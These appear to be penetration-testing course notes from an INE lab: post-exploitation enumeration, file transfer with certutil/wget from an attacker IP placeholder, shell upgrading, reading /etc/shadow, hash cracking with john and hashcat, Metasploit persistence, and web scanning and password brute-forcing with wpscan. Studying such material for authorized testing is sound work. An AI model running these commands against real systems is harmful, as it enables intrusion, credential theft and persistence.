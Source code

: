 Automate        
**LinEnum** https://github.com/rebootuser/LinEnum       
WARNING => on INE lab environment CTRL+SHIFT+ALT => open your clipboard option      
you copy the content of the script => load it through meterpreter or any other solution => you run the script       

On Metasploit;      
**post/linux/gather/enum_configs** then you can cat the content of the files created        
**post/linux/gather/enum_network** then you can cat the content of the files created        
**post/linux/gather/enum_system** same logic   

TRANSFERING FILES       
**python -m SimpleHTTPServer [port number]**        
*With windows*        
**certutil -urlcache -f  http://[YOUR_IP]/[file _you_want] [how_you_want_to_be_named_once_dl]**     
*With linux*        
**wget http://[YOUR_IP]/[file _you_want]**      

UPGRADING SHELL     
We saw **/bin/bash -i** in the previous videos      
You can check the possibilities **cat /etc/shells**     
If you have python install (on the target) => you check **python –version**     
**python -c 'import pty; pty.spawn("/bin/bash")'** 


**WINDOWS PRIV ESC**
https://github.com/itm4n/PrivescCheck      

Dumping & Cracking      
*Windows*       
**john - -format=NT [files_with_hashes] - -wordlist=[Path_tou_your_wordlist]**       
**hashcat -a3 -m=1000 [file_with_hash] - -wordlist=[Path_tou_your_wordlist]**       
*Linux*     
Check the value on **/etc/shadow** file regarding the $[number]$ 
[then used the same as windows]         

Persistence windows     
/exploit/windows/local/persistence_service Metasploit module        




``Web applications``        

GOBUSTER        
**gobuster dir -u https://[website].com/ -w [wordlist_path]** 

NIKTO       
**nikto -h [IP] **      
-p [port,port] to scan specific ports       

WPSCAN      
**wpscan –update** to update        
**wpscan --url http://[website] --enumerate [letter]**  
     p plugins 
  t themes  
  u usernames   
  v vulnerability but to use with other letters like vp     
**wpscan –-url http://[website] –-passwords path/to/rockyou.txt –-usernames [from previous command u]** to try to connect with rockyou.txt      
